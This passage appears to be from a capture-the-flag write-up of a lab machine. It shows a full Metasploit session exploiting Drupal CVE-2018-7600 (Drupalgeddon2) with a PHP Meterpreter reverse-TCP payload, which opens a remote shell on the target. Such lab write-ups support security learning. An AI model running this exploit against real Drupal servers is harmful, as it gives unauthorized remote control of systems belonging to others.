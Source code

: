 [![drupal](/img/armageddon/drupal.png)](/img/armageddon/drupal.png)

This version of drupal is vulnerable to CVE-2018-7600 also called drupalgeddon2. There exists a msf module for this CVE which we will use out of simplicity. We set the port to one that is mostly allowed for outbound connections, set the lhost to our vpn ip, set the rhost to the target and run the exploit. After some time it returns in a meterpreter on the target. 

```
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 443
lport => 443
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 443
lport => 443
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lhost 10.10.14.68
lhost => 10.10.14.68
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhost 10.129.48.89
rhost => 10.129.48.89
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 10.10.14.68:443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.129.48.89
[*] Meterpreter session 1 opened (10.10.14.68:443 -> 10.129.48.89:39072) at 2021-07-21 17:47:04 +0100

meterpreter >
```
